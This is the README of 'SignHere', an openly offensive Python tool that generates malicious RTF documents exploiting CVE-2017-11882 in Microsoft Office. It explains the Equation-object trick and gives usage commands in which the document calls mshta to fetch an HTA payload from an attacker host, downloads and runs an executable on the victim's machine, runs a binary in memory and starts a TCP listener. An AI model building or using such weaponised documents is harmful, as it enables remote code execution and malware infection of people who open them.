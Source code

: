## SignHere
<b>Introduction</b>

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Atention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py --help
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload.

<b>--ip</b>
Argument with ip address that will be used for web-server. (default: 127.0.0.1)

<b>--output</b>
Name and path of document.

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --temp exploit.exe --ip 192.168.1.74 --output generated.rtf
```

<b>--temp</b>
Argument that will use binary file as payload (binary file will start in RAM memory).

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --payload exploit.exe --ip 192.168.1.74 --listener-host 192.168.1.74 --output generated.rtf
```

<b>--payload</b>
Argument that will download file on computer of victim and execute it.

<b>--listener-host</b>
Argument for starting TCP listener on curret ip (default: 127.0.0.1)
